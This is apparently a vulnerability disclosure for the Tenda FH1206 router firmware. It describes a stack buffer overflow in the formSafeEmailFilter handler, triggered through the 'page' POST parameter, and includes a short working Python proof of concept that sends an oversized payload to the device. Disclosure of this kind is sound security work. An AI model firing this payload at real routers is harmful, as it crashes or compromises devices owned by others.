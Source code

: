 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `formSafeEmailFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v6, "firewall_email_list.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v6` array, thus triggering this security vulnerability.

![image-20240802203119331](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802203119331.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeEmailFilter"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)
